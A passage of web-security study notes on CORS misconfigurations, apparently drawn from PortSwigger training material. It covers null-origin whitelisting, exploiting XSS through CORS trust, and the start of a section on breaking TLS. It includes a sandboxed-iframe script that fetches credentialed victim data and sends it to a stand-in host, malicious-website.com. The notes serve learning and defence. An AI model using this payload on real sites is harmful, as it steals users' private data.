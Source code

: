 ```HTTP
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: null 
Access-Control-Allow-Credentials: true
```

* In this situation, an attacker can use various tricks to generate a cross-origin request containing the value `null` in the Origin header
* This will satisfy the whitelist, leading to cross-domain access
* For example, this can be done using a sandboxed `iframe` cross-origin request of the form

```HTML
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script> 
		var req = new XMLHttpRequest(); 
		req.onload = reqListener; 
		req.open('get','vulnerable-website.com/sensitive-victim-data',true);
		req.withCredentials = true; 
		req.send(); 
		function reqListener() { 
			location='malicious-website.com/log?key='+this.responseText; 
		}; 
</script>">
</iframe>
```

### Exploiting XSS via CORS trust relationships
* Even "correctly" configured CORS establishes a trust relationship between two origins
* If a website trusts an origin that is vulnerable to cross-site scripting ([XSS](https://portswigger.net/web-security/cross-site-scripting)), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application

```HTTP
GET /api/requestApiKey HTTP/1.1 
Host: vulnerable-website.com 
Origin: https://subdomain.vulnerable-website.com 
Cookie: sessionid=...
```

```HTTP
HTTP/1.1 200 OK
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com 
Access-Control-Allow-Credentials: true
```

* Then an attacker who finds an XSS vulnerability on `subdomain.vulnerable-website.com` could use that to retrieve the API key

```http
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

### Breaking TLS with poorly configured CORS
* Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP
